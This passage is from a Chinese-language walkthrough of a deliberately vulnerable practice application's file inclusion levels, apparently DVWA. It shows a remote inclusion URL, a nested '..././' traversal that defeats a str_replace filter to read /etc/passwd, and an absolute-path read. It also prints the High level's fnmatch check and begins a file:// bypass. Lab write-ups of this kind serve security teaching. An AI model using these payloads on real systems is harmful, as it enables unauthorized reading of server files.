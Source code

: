 
payload

```payload
/fi/?page=HTTPS://www.sqlsec.com/info.txt
```

1. **本地文件包含**

因为过滤 `../` 和 `..\`，也是使用的是 str_replace 替换为空，所以依然可以尝试双写嵌套绕过：





payload

```payload
/fi/?page=..././..././..././..././..././etc/passwd
```

str_replace 函数处理之后就变成了如下情况：





none

```none
/fi/?page=../../../../../etc/passwd
```

同样如果这里知道绝对路径的话，直接包含绝对路径也是OK的：





none

```none
/fi/?page=/etc/passwd
```

## High

High 级别的过滤规则如下：





php

```php
$file = $_GET[ 'page' ];

if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    echo "ERROR: File not found!";
    exit;
}
```

代码里面要求 page 参数的开头必须是 file，否则直接就 exit 退出。

这里刚好可以使用 file:// 协议来进行文件读取了：
